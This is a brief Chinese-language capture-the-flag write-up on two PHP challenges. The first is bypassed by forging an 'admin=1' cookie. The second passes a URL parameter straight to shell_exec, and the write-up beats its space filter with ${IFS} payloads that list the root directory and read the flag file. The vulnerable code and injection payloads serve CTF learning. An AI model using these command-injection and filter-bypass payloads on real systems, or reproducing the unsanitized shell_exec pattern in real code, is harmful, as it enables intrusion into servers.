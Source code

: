 ```php
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?> 小饼干最好吃啦！

```

###########################

__第一個__

###########################

用hackbar偽做cookie "admin=1" =>  網頁會出一個 rasalghul.php
當輸入http：//xxxxxxxxx.xxx/rasalghul.php 

###########################
 ```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?> 
 ```
##########################
第2個
##########################

preg_match("/ /", $ip)  => 过滤空格
http：//xxxxxxxxx.xxx/rasalghul.php?url=ls => url 的元素會直接執行linux命令 => 看根目录 => http：//xxxxxxxxx.xxx/rasalghul.php?url=ls${IFS}/
 => 看到flag => http：//xxxxxxxxx.xxx/rasalghul.php?url=cat${IFS}/flllllaaaaaaggggggg => flag 
 
##########################
知識點：

preg_match(） 过滤函數

$IFS 空格

hackbar偽做cookie
  
